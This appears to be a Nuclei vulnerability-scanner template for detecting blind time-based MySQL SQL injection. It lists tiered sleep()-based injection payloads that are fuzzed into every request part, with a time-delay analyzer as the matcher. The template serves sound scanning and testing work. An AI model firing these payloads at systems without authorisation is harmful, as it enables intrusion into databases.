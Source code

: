 A template to detect blind time based SQLi with a time delay analyzer.

```
id: mysql-blind-time-based-sqli

info:
  name: MySQL SQLi - Blind Time based
  author: pdteam
  severity: critical
  reference:
    - https://github.com/zaproxy/zap-extensions/blob/main/addOns/ascanrules/src/main/java/org/zaproxy/zap/extension/ascanrules/SqlInjectionMySqlScanRule.java

http:
  - payloads:
      injections:
        low:
          - " / sleep([SLEEPTIME]) "
          - "' / sleep([SLEEPTIME]) / '"
          - "\" / sleep([SLEEPTIME]) / \""
        medium:
          - " and 0 in (select sleep([SLEEPTIME]) ) -- "
          - "' and 0 in (select sleep([SLEEPTIME]) ) -- "
          - "\" and 0 in (select sleep([SLEEPTIME]) ) -- "
          - " where 0 in (select sleep([SLEEPTIME]) ) -- "
          - "' where 0 in (select sleep([SLEEPTIME]) ) -- "
          - "\" where 0 in (select sleep([SLEEPTIME]) ) -- "
        high:
          - "\" where 0 in (select sleep([SLEEPTIME]) ) and \"\"=\""
          - " and 0 in (select sleep([SLEEPTIME]) ) "
          - "' and 0 in (select sleep([SLEEPTIME]) ) and ''='"
          - "\" and 0 in (select sleep([SLEEPTIME]) ) and \"\"=\""
          
    attack: pitchfork
    analyzer:
      name: time_delay
        
    fuzzing:
      - part: request # fuzz all the request parts.
        type: postfix
        mode: single
        fuzz:
          - "{{injections}}"
          
    stop-at-first-match: true
    matchers-condition: and
    matchers:
      - type: word
        part: analyzer
        words:
          - "true"

```

